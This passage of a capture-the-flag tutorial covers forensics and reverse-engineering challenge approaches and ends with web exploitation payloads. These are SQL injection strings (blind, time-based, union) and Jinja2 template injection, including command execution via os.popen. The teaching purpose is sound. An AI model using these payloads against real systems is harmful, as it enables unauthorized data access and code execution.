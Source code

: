 ### Challenge 3: Basic Forensics

1. **Challenge Setup**
   - Provide a suspicious network capture file
   - Hidden flag in the traffic

2. **Solution Approach**
   ```bash
   # Analyze with Wireshark
   wireshark capture.pcap
   
   # Look for suspicious protocols
   # Check HTTP traffic for flags
   # Examine DNS queries
   # Look for data exfiltration
   ```

### Challenge 4: Basic Reverse Engineering

1. **Challenge Setup**
   - Simple binary that checks for correct input
   - Flag revealed with correct password

2. **Solution Approach**
   ```bash
   # Run strings to look for obvious text
   strings challenge_binary
   
   # Disassemble to understand logic
   objdump -d challenge_binary
   
   # Use debugging tools if needed
   gdb challenge_binary
   ```

## Part 5: Advanced CTF Techniques

### Web Exploitation Advanced

1. **SQL Injection Techniques**
   ```sql
   # Boolean-based blind injection
   1' AND (SELECT COUNT(*) FROM users) > 0 --
   
   # Time-based blind injection
   1'; WAITFOR DELAY '00:00:05' --
   
   # Union-based injection
   1' UNION SELECT 1,2,3,database() --
   ```

2. **Server-Side Template Injection**
   ```python
   # Jinja2 template injection
   {{ ''.__class__.__mro__[2].__subclasses__() }}
   
   # Command execution through SSTI
   {{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
   ```
